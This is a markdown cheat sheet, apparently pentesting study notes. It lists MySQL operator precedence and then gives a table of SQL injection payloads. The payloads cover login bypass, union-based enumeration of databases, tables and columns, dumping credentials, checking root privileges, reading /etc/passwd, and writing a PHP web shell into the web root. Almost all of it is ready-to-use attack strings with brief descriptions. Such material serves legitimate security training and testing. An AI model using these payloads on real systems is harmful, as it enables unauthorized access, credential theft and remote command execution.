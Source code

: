 #### MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

#### SQL Injection

| Payload                                                                                                                                    | Description                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------- |
| **Auth Bypass**                                                                                                                            |                                                      |
| `admin' or '1'='1`                                                                                                                         | Basic Auth Bypass                                    |
| `admin')-- -`                                                                                                                              | Basic Auth Bypass With comments                      |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)              |                                                      |
| **Union Injection**                                                                                                                        |                                                      |
| `' order by 1-- -`                                                                                                                         | Detect number of columns using `order by`            |
| `cn' UNION select 1,2,3-- -`                                                                                                               | Detect number of columns using Union injection       |
| `cn' UNION select 1,@@version,3,4-- -`                                                                                                     | Basic Union injection                                |
| `UNION select username, 2, 3, 4 from passwords-- -`                                                                                        | Union injection for 4 columns                        |
| **DB Enumeration**                                                                                                                         |                                                      |
| `SELECT @@version`                                                                                                                         | Fingerprint MySQL with query output                  |
| `SELECT SLEEP(5)`                                                                                                                          | Fingerprint MySQL with no output                     |
| `cn' UNION select 1,database(),2,3-- -`                                                                                                    | Current database name                                |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                                  | List all databases                                   |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                                 | List all tables in a specific database               |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`                | List all columns in a specific table                 |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                                       | Dump data from a table in another database           |
| **Privileges**                                                                                                                             |                                                      |
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                                                                                     | Find current user                                    |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`                                                               | Find if user has admin privileges                    |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -`                  | Find if all user privileges                          |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection**                                                                                                                         |                                                      |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                                                                                   | Read local file                                      |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'`                                                               | Write a string to a local file                       |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`                                  | Write a web shell into the base web directory        |
{% endtab %}
